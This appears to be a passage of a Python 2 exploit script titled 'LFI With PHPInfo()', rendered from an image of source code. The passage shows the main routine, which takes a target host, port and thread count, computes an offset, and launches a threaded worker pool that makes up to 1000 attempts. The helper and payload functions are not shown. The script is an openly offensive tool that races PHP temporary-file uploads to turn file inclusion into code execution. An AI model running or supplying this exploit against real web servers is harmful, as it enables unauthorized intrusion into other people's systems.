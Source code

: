 ```python
    # padded up a bit
    return i+256                             #为提高准确性扩大了范围           

def main():

    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)

    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
```
